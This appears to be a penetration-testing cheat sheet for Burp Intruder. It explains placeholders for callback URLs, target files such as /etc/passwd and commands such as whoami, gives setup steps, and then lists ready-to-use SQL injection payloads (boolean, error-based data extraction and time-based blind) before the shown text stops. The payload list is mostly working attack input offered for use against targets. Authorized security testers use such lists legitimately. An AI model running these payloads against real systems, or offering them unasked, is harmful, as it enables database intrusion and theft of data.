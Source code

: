 ```yaml
---
icon: bolt
---
```


# Burp Intruder Fast Discovery

**Placeholders Used:**

* `{{TARGET_HOST}}`: The target domain or IP.
* `{{CALLBACK_URL}}`: Your Burp Collaborator client URL or personal server for OAST (Out-of-Band Application Security Testing).
* `{{TARGET_FILE}}`: A file you are trying to read (e.g., /etc/passwd).
* `{{CMD}}`: A command you are trying to execute (e.g., whoami).
* `{{INJECT_POINT}}`: A marker for where the payload is injected.

***

#### **How to Use This in Burp Intruder**

1. **Attack Type:** Choose the appropriate attack type. "Sniper" is for a single position, while "Cluster Bomb" is excellent for testing multiple parameters at once (e.g., a username and password field with NoSQLi payloads).
2. **Payload Sets:** Load the relevant section below as a "Simple list".
3. **Placeholders:** Before running, use Intruder's "Find and Replace" feature in the main request window to replace placeholders like \{{CALLBACK\_URL\}} with your actual Collaborator URL.
4. **Payload Processing:** Use Intruder's "Payload Processing" rules to apply URL encoding, Base64 encoding, or other modifications on the fly. This is extremely powerful.
5. **Grep - Match:** Configure "Grep - Match" to look for success indicators, such as root:x:0:0, OAST\_SUCCESS, Content-Type: application/json, or specific error messages.
6. **Grep - Extract:** Use "Grep - Extract" to pull data from responses, which is ideal for blind vulnerabilities.

***

#### **Web Bolt Wordlist**

**1. SQL Injection (SQLi)**

```
# === Boolean-Based ===
' OR 1=1--
" OR 1=1--
' OR '1'='1--
" OR "1"="1--
') OR ('1'='1--
1' OR '1'='1'
' OR 'x'='x
' OR 1 -- -
' OR '1'='1' /*
' OR 1=1#

# === Error-Based ===
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, (SELECT DATABASE()), 0x7e, FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a)--
" AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, (SELECT USER()), 0x7e, FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a)--
' AND GTID_SUBSET(SHOW,1)--
' AND 1=(SELECT * FROM (SELECT NAME_CONST(VERSION(),1),NAME_CONST(VERSION(),1)) AS x)--
' anD 1=CoNvErT(iNt, (sElEcT User()))--

# === Time-Based (Blind) ===
' OR SLEEP(5)--
" OR SLEEP(5)--
```